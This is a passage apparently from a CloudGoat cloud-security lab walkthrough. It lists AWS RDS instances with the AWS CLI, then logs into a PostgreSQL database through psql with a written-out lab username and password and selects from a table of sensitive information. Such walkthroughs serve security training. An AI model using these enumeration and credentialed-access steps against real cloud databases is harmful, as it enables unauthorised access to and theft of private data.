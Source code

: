 * Enumerate RDS Instance Information.

```bash
aws rds describe-db-instances --region us-east-1
```

<p align="center">
  <img src="/images/cloud/rds_info.png">
</p>

* Using **DB name,Username,Password and RDS Instance** try to connect via psql to retrive _sensitive information_.

```bash
psql postgresql://cgadmin:Purplepwny2029@<rds-instance>:5432/cloudgoat
\dt
select * from sensitive_information;
```

<p align="center">